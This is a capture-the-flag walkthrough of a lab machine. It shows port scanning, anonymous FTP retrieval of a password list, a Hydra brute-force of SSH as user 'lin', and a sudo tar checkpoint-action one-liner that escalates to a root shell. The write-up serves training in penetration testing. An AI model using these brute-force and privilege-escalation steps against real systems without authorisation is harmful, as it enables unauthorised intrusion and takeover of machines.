

## Scenario

> You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future!

Access via: `10.114.132.30`

### Deploy the machine.

**Answer:** `No answer needed`

### Find open ports on the machine

My own Kali VM's VPN connection turned out to be broken: a full port scan reported the host as down, and after redeploying the machine to rule out a damaged target, a full-port scan over the same VPN link ran so slowly its ETC kept climbing rather than counting down. Switching to the AttackBox, which sits in the same cloud network as the target and skips the VPN hop, resolved it immediately: a full TCP port scan completed in under a minute.

```shell
root@ip-10-114-114-81:~# nmap 10.114.132.30 -p-   

Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-11-03 18:32 UTC
Stats: 0:00:22 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 33.93% done; ETC: 18:33 (0:00:43 remaining)
Nmap scan report for ip-10-114-132-30.eu-central-1.compute.internal (10.114.132.30)
Host is up (0.00023s latency).
Not shown: 55529 filtered tcp ports (no-response), 10003 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 47.74 seconds
```

I followed up with a targeted service and script scan against the three open ports.

```shell
root@ip-10-114-114-81:~# nmap 10.114.132.30 -p21,22,80 -sV -sC 

Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-11-03 18:34 UTC
Nmap scan report for ip-10-114-132-30.eu-central-1.compute.internal (10.114.132.30)
Host is up (0.00029s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.114.114.81
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 550 Permission denied.
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dd:23:9b:eb:91:d9:6a:00:69:03:be:63:79:9c:14:58 (RSA)
|   256 17:4d:26:a5:be:d5:7a:2d:38:40:50:7f:cd:60:e1:58 (ECDSA)
|_  256 54:37:3f:a7:ec:07:83:e4:06:e1:61:cd:fc:a5:f7:bd (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.24 seconds
```

**Breakdown:**

- `nmap 10.114.132.30 -p21,22,80` restricts the scan to the three open ports
- `-sV` probes each port for service and version information
- `-sC` runs nmap's default script set, which here includes `ftp-syst` and `ftp-anon` against the FTP service

This confirmed `vsftpd 3.0.5` on port 21 with anonymous login allowed, `OpenSSH 8.2p1` on port 22, and `Apache httpd 2.4.41` on port 80.

**Answer:** `No answer needed`

### Who wrote the task list?

Since the FTP service allowed anonymous login, I connected and listed the directory.

```shell
root@ip-10-114-114-81:~# ftp 10.114.132.30 21

Connected to 10.114.132.30.
220 (vsFTPd 3.0.5)
Name (10.114.132.30:root): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

```shell
ftp> ls

550 Permission denied.
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get locks.txt

local: locks.txt remote: locks.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
100% |***********************************|   418        2.71 MiB/s    00:00 ETA
226 Transfer complete.
418 bytes received in 00:00 (571.71 KiB/s)
ftp> get task.txt

local: task.txt remote: task.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
100% |***********************************|    68      544.31 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (101.69 KiB/s)
```

**Breakdown:**

- `ls` lists the current directory, returning two files, `locks.txt` and `task.txt`, after an initial `550 Permission denied.` from a passive-mode attempt that fell back successfully to active mode
- `get locks.txt` and `get task.txt` each download the named file to the local machine

I read the task list.

```shell
root@ip-10-114-114-81:~# cat task.txt

1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

The list is signed `-lin`.

**Answer:** `lin`

### What service can you bruteforce with the text file found?

I read the other downloaded file.

```shell
root@ip-10-114-114-81:~# cat locks.txt

rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
—REDACTED—
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

This is a list of candidate passwords, not usernames, so it pairs with the username `lin` found in `task.txt`. Of the three services found open (FTP, SSH, HTTP), SSH is the one that takes a username and password pair directly for a brute-force attempt in the way this wordlist is shaped.

**Answer:** `ssh`

### What is the users password?

I ran a dictionary attack against SSH using the username and wordlist found.

```shell
root@ip-10-114-114-81:~# hydra -l lin -P locks.txt ssh://10.114.132.30

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-11-03 18:40:42
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.114.132.30:22/
[22][ssh] host: 10.114.132.30   login: lin   password: —REDACTED—
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-11-03 18:40:46
```

**Breakdown:**

- `hydra` runs the tool
- `-l lin` sets the fixed username to attack, taken from `task.txt`
- `-P locks.txt` points to the password wordlist, the downloaded `locks.txt`
- `ssh://10.114.132.30` targets the SSH service on the given host

Hydra found a match: `login: lin password: —REDACTED—`.

**Answer:** `—REDACTED—`

### user.txt

I logged in over SSH with the cracked credentials.

```shell
root@ip-10-114-114-81:~# ssh lin@10.114.132.30

The authenticity of host '10.114.132.30 (10.114.132.30)' can't be established.
ED25519 key fingerprint is SHA256:Zl4ArWpgd4aWsXH5YF9y45aPxoNzHFWZ12heRAogeDg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.114.132.30' (ED25519) to the list of known hosts.
lin@10.114.132.30's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

Expanded Security Maintenance for Infrastructure is not enabled.

0 updates can be applied immediately.

Enable ESM Infra to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Your Hardware Enablement Stack (HWE) is supported until April 2025.
Last login: Mon Aug 11 12:32:35 2025 from 10.23.8.228
```

**Breakdown:**

- `ssh lin@10.114.132.30` connects to the target over SSH as the user `lin`
- `yes` accepts the host key on first connection
- `—REDACTED—` (the cracked password) is entered when prompted

Login succeeded, landing at a shell prompt as `lin`. I found and read the user flag.

```shell
lin@ip-10-114-132-30:~/Desktop$ ls

user.txt
lin@ip-10-114-132-30:~/Desktop$ cat user.txt

—REDACTED—
```

**Breakdown:**

- `ls` lists the current directory, showing `user.txt`
- `cat user.txt` prints its contents, the flag itself

**Answer:** `—REDACTED—`

### root.txt

With a shell as `lin`, I checked for any sudo privileges.

```shell
lin@ip-10-114-132-30:~/Desktop$ sudo -l

[sudo] password for lin: 
Matching Defaults entries for lin on ip-10-114-132-30:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on ip-10-114-132-30:
    (root) /bin/tar
```

**Breakdown:**

- `sudo -l` lists the commands the current user is permitted to run with `sudo`

Confirmed: `lin` can run `/bin/tar` as root with no password restriction beyond the sudo prompt itself. `tar` supports a `--checkpoint-action` option that can execute an arbitrary command during its own run, which is exploitable to get a shell when `tar` itself runs as root. I got the one-liner for this from GTFOBins, which documents exactly this sudo-shell technique for `tar`.



```shell
lin@ip-10-114-132-30:~/Desktop$ sudo tar cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

tar: Removing leading `/' from member names
```

**Breakdown:**

- `sudo tar` runs `tar` as root, via the permission confirmed above
- `cf /dev/null /dev/null` creates (`c`) an archive, writing it to `/dev/null` (`f /dev/null`) with `/dev/null` as the single file being archived, so the actual archive content is irrelevant and immediately discarded
- `--checkpoint=1` makes `tar` perform a checkpoint action after every 1 record processed, so the action fires almost immediately
- `--checkpoint-action=exec=/bin/sh` sets that checkpoint action to execute `/bin/sh`, a shell

This dropped into a new shell running with root's privileges, confirmed by checking the current user.

```shell
# whoami

root
```

```shell
# find / -type f -name root.txt 2>/dev/null

/root/root.txt
```

**Breakdown:**

- `find / -type f -name root.txt` searches the whole filesystem for a file named `root.txt`
- `2>/dev/null` discards error output, such as "permission denied" messages from directories the search can't read

```shell
# cat /root/root.txt

—REDACTED—
```

**Answer:** `—REDACTED—`